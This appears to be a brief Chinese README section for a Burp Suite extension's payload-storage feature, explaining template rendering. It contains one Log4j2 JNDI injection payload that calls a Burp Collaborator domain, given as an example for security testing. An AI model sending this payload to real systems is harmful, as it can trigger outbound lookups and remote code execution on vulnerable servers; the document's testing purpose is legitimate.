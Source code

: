 # Payload

存储常用的payload，便于在repeater中利用

> 支持payload模板渲染，例如在log4j2的测试中，可以通过模板配置表达式，模板渲染时通过表达式调用Burp的Collaborator生成dns domain，再组装成payload

```
$${jndi:ldap://${BurpUtil.generateCollaboratorPayload()}}
```

> 此处{jndi前使用双$是因为该payload格式与渲染字符串的表达式标记格式正好相符，两个$$相当于转义

